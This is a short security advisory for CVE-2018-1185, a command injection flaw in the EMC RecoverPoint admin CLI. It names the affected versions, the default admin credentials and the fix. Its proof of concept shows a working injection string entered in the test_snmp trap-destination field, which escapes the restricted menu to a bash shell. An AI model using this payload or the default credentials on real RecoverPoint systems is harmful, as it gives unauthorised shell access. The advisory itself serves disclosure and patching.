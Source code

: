 ## EMC RecoverPoint Admin CLI Command Injection test_snmp

- Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3
- Date: 2018-05-11
- Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo
- Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1
- CVE: CVE-2018-1185

## 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user (default credentials admin/admin).

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
## 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

## 3. Solution:
    
Update to latest version of RecoverPoint
